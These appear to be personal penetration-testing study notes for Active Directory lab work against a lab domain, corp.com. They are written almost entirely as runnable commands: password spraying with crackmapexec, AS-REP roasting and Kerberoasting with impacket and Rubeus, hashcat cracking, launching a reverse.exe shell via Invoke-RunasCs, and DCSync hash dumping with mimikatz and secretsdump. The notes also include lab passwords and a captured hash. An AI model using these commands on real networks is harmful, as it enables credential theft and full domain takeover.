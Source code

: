 
# Pass attacks

## Pass policy
```
net accounts
```

![[Pasted image 20240521124727.png]]

## Pass spray from windows

```
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
```

![[Pasted image 20240521124816.png]]


## Pass spray with nxc, cme

```
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

![[Pasted image 20240521125223.png]]

![[Pasted image 20240521125553.png]]


## AS-REP

```
impacket-GetNPUsers -dc-ip 192.168.162.70 -request corp.com/pete:Nexus123!
```

![[Pasted image 20240521130528.png]]

```
sudo hashcat -m 18200 '$krb5asrep$23$dave@CORP.COM:be4f988f238e5d724399cc356d7a00e7$8d6ade2dbebbb094f576eb73abc07f8509c6972d6e11277489b0b99e77e961373b9726c917357203ae615c6c23f70e4542a4dd31e818db2725de8154d6fe7a3ccec93f08a866718c1ebec09ade6f16449f6ff29561c505248288513d8c2fed13094b3c6fc444db5c0d87187204f5bc7aba59ac2420077101b5e19507624447aab5a70e1fe2a1492f4802505f8c0a6366e8a53b759640f689c917074658eaff025d2995ed3cac9fe64220910d28b5bae57cd5d5f18a8e93ffe6ad66a1357c61244f3a425687c599c269f8fa7d61ba011a6f4386220e932199e054f5cb23546d730e04e628' ~/Desktop/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

**Offsec loves base64.rule**


```
.\Rubeus.exe asreproast /nowrap
```

![[Pasted image 20240521130633.png]]


## kerberoast - SPN

TGS-REP

```
impacket-GetUserSPNs -dc-ip 192.168.162.70 -request corp.com/jeff:'HenchmanPutridBonbon11'
```

![[Pasted image 20240521151025.png]]

```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```


### without pass kerberoast powerview

```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat
```

rubeus will give proper hash which will not need formatting

```
.\Rubeus.exe kerberoast /nowrap
```

use `Invoke-RunasCS.ps1` with user & pass

```
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "reverse.exe"
```
## DCsync

DC are synced to reduce availability

These three permission needed to perform this attack:
1. Replicating Directory Changes
2. Replicating Directory Changes All
3. Replicating Directory Changes in Filtered Set

By default, members of the Domain Admins, Enterprise Admins, and Administrators groups have these rights assigned

```
./mimikatz.exe

privilege::debug

lsadump::dcsync /user:corp\dave
lsadump::dcsync /user:corp\Administrator
```

Notably, we can perform the dcsync attack to obtain any user password hash in the domain, even the domain administrator Administrator.

```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```
This will give only one hash

```
impacket-secretsdump corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.162.70
```

To dump all hash

![[Pasted image 20240521153201.png]]

